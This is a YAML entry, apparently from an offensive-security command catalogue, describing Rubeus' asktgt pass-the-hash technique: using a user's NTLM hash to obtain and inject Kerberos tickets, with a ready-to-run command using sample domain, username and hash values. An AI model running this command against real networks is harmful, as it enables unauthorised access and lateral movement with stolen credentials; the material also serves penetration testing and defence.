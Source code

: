 ```yaml
---
title: |
  Request Kerberos tickets to access any service or machine that user has permissions to
description: |
  Rubeus' `asktgt` module uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Domain: test.local

  	Username: test

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe asktgt /domain:test.local /user:test /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#asktgt
---
```

